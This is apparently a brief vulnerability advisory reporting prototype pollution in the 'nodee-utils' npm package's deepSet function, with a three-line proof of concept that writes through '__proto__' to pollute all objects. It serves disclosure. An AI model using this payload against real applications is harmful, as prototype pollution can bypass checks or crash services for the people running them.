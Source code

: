 # Overview
`nodee-utils` is a set of useful helpers, this package are vulnerable to Prototype Pollution via. the `deepSet` function.

# Proof of Concept
```
const { object } = require('nodee-utils');
object.deepSet({}, '__proto__.polluted', true);
console.log(polluted);
```